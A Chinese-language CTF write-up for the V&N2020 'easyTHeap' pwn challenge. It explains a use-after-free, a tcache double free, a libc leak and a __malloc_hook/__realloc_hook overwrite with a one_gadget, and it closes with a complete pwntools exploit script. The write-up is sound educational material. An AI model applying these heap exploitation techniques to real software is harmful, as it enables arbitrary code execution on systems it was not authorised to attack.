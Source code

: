# [V&N2020 公开赛]easyTHeap


利用tache的double free来修改malloc_hook。并利用realloc来使onegadget满足要求

<!--more-->

# 涉及知识

+ tcache attack
+ realloc_hook和malloc_hook的配合
+ 修改程序ld和libc

# 程序分析

## 保护机制

![](https://raw.githubusercontent.com/TroyeCriss/blog_img/master/img/image-20200418162905675.png)

保护全开，由于靶机环境是ubuntu18，而本机环境是ubuntu16所以需要修改ld和libc，修改方法见这篇文章。[修改程序为指定libc版本 & pwndbg安装](https://troyecriss.github.io/2020/04/17/修改程序为指定libc版本-pwndbg安装/)

![](https://raw.githubusercontent.com/TroyeCriss/blog_img/master/img/image-20200410181233028.png)

## 漏洞分析



程序有四个功能，分别为添加，编辑，显示和删除。程序的漏洞出现在删除部分

![](https://raw.githubusercontent.com/TroyeCriss/blog_img/master/img/image-20200418163215748.png)

当free掉分配的堆块后，没有堆指针清理，存在UAF漏洞。如何利用这一个漏洞获取shell呢？

由于libc的版本是2.27所以存在tcache bins。tcache bins的保护机制不是十分的严格，使用double free时不会对目标地址进行检测，所以这里我们可以利用tcache的double free来达到任意地址分配。

那我们分配哪个地址呢？程序开启了PIE，我们不能直接写入地址，必须要泄漏地址才可以利用。我们知道unsorted bins被free掉后可以泄漏libc的地址，但是由于存在tcache bins，我们必须将tcache bins存满后，free掉的堆块才会分配到unsorted bins中，可以程序仅能free掉3次，我们该如何利用呢？

这里我们换个思路，我们分配到堆块的起始位置，因为这里记录了tcache bins的信息。当我们分配了这个堆块后，修改tcache bins的大小为7，就可以实现unsorted bin分配。同时修改tcache bins链表信息，可以达到任意地址分配的作用。

```` python
add(0x100) #0
add(0x10)  #1
delete(0)
delete(0)
show(0)

heap=u64(sh.recvuntil('\n').replace('\n','').ljust(8,'\x00'))-0x250
````

我们先分配两个堆块，释放0堆块两次后，就可以泄露出heap的地址

````python
add(0x100) #2
edit(2,p64(heap))
add(0x100) #3
add(0x100) #4
````

分配一个堆块，并对next进行修改后，再分配两次，我们就可以获得heap起始位置的堆块。

```` python
edit(4,'\x00'*15+'\x07')
delete(0)
show(0)
libc_base=u64(sh.recvuntil('\n').replace('\n','').ljust(8,'\x00'))-0x3afca0
gadget=[0x4f2c5,0x4f322,0x10a38c]
one_gadget=libc_base+0xdeed2
malloc_hook=libc_base+libc.symbols['__malloc_hook']
realloc=libc_base+libc.symbols['realloc']
````

我们先将tcache bins的大小修改为7，填满tcache。当我们再次free掉0堆块时，将会被放入unsorted bins中，因此我们就可以泄露出libc的地址并计算出所需gadget的地址。

接下来的思路就很清晰了，分配_\_malloc_hook附近的堆块，修改__malloc_hook为one_gadget，然后再次分配一个堆块，来获取shell。但是博主刚开始尝试使用这个方法时，不能成功，因为不能满足one_gadget的限制条件，那么该怎么办呢？

这里利用了一个有趣的技巧，修改\_\_malloc_hook为realloc，将\_\_realloc_hook修改为\_\_one\_gadget。这里利用了realloc里面push等调整栈的命令，使调用one_gadget时满足堆栈限制条件。

这里详细讲解一下调试方法，假如我们刚开始修改__malloc_ho0k为realloc,one_gadget的限制条件是rsp+0x70=0

```` python
edit(4,'\x00'*15+'\x01'+p64(0)*21+p64(malloc_hook-8))
add(0x100) #5
edit(5,p64(one_gadget)+p64(realloc))
````

我们利用gdb调试，在onegadget处下断点后。

![](https://raw.githubusercontent.com/TroyeCriss/blog_img/master/img/image-20200418165749768.png)

我们可以发现，在rsp+0x70处，不为零，但是rsp+0x88处为零，我们可以利用realloc加一个偏移量来使得rsp+0x70处值为零。我们先看一下realloc函数的内容。

![](https://raw.githubusercontent.com/TroyeCriss/blog_img/master/img/1.png)

如果我们不从realloc一开始执行，而是从realloc+6开始执行，将会少执行3个push，我们栈就可以抬高0x18因此我们执行one_gadget时其rsp+0x70处的位置将会是之前的rsp+0x88处，从而满足限制条件。

# EXP

````python
from pwn import *
from LibcSearcher import LibcSearcher
from roputils import ROP
context.arch='amd64'
elf=ELF('./pwn3')
#sh=remote('node3.buuoj.cn',28286)
sh=process('./pwn2')
libc=ELF('/glibc/2.27/amd64/lib/libc-2.27.so')
#context.log_level='debug'
# gdb.attach(sh,'''
# b*0x0000000000400619
# c
# ''')
def add(size):
	sh.recvuntil(': ')
	sh.sendline('1')
	sh.recvuntil('size?')
	sh.sendline(str(size))

def edit(index,content):
	sh.recvuntil(': ')
	sh.sendline('2')
	sh.recvuntil('idx?')
	sh.sendline(str(index))
	sh.recvuntil('content:')
	sh.sendline(content)

def show(index):
	sh.recvuntil(': ')
	sh.sendline('3')
	sh.recvuntil('idx?')
	sh.sendline(str(index))

def delete(index):
	sh.recvuntil(': ')
	sh.sendline('4')
	sh.recvuntil('idx?')
	sh.sendline(str(index))

add(0x100) #0
add(0x10)  #1
delete(0)
delete(0)
show(0)

heap=u64(sh.recvuntil('\n').replace('\n','').ljust(8,'\x00'))-0x250
print hex(heap)
add(0x100) #2
edit(2,p64(heap))
add(0x100) #3
add(0x100) #4
edit(4,'\x00'*15+'\x07')
delete(0)
show(0)
libc_base=u64(sh.recvuntil('\n').replace('\n','').ljust(8,'\x00'))-0x3afca0
gadget=[0x4f2c5,0x4f322,0x10a38c]
one_gadget=libc_base+0xdeed2
malloc_hook=libc_base+libc.symbols['__malloc_hook']
realloc=libc_base+libc.symbols['realloc']
print hex(realloc)
edit(4,'\x00'*15+'\x01'+p64(0)*21+p64(malloc_hook-8))
add(0x100) #5
edit(5,p64(one_gadget)+p64(realloc+6))

add(0x10)
#gdb.attach(sh)
sh.interactive()
````

# 参考

[onegadget不起作用](https://blog.csdn.net/Maxmalloc/article/details/102535427)

[V&N2020 公开赛\]easyTHeap pwn_debug注意事项](https://www.cnblogs.com/luoleqi/p/12488986.html)


